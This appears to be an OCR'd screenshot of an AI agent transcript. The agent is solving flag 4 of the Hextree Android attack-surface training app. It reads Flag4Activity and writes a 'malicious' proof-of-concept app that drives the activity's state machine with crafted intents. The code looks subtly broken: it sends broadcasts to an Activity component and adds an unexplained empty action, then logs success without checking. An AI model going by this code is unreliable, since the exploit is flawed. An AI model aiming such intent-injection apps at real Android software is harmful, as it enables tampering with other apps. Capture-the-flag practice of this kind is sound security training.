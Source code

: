 
Function Call: id=None args={'command': 'ls sources/io/hextree/attacksurface/activities/'} name='execute_shell_command'
----------
Role: tool
Function Call: None
----------
Role: model
Text: Okay, it seems the correct path is `sources/io/hextree/attacksurface/activities/Flag4Activity.java`. Let's read the file content again.


Function Call: id=None args={'file_path': 'sources/io/hextree/attacksurface/activities/Flag4Activity.java'} name='read_file_content'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='Okay, I have the code for `Flag4Activity`. It appears to be a state machine. Here\'s the breakdown:\n\n*   **States:** `INIT`, `PREPARE`, `BUILD`, `GET_FLAG`, `REVERT`\n*   **Actions:** `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, `INIT_ACTION`\n*   **Goal:** To reach the `GET_FLAG` state and then trigger the `success(this)` method.\n\nThe `stateMachine` method handles state transitions based on the current state and the received intent\'s action. The `getCurrentState` and `setCurrentState` methods use `SolvedPreferences` to persist the state.\n\nHere\'s the path to the solution:\n\n1.  Start in `INIT` state. Send `PREPARE_ACTION` to transition to `PREPARE`.\n2.  Send `BUILD_ACTION` to transition to `BUILD`.\n3.  Send `GET_FLAG_ACTION` to transition to `GET_FLAG`.\n4.  Once in `GET_FLAG` state, the code checks for `i == 4`. This condition is met, and it executes:\n    *   `this.f179f.addTag(State.GET_FLAG);`\n    *   `setCurrentState(State.INIT);`\n    *   `success(this);`\n    *   `Log.i("Flag4StateMachine", "solved");`\n\nThe vulnerability is that we can control the state transitions by sending specific intents with the correct actions.\n\nNow, let\'s construct the malicious Android application to exploit this.\n\n'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Context;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: PREPARE_ACTION\n        sendAction("PREPARE_ACTION");\n\n        // Step 2: BUILD_ACTION\n        sendAction("BUILD_ACTION");\n\n        // Step 3: GET_FLAG_ACTION\n        sendAction("GET_FLAG_ACTION");\n\n        // Step 4: Trigger success\n        sendAction("");\n\n        Log.i("MaliciousFlag4PoC", "Exploit completed");\n        finish();\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n    }\n}\n', 'file_path': 'Android-2/MaliciousFlag4PoC.java'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.08214139020001447, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=675, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=675)], prompt_token_count=14620, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=14620)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=15295, traffic_type=None), automatic_function_calling_history=[], parsed=None)

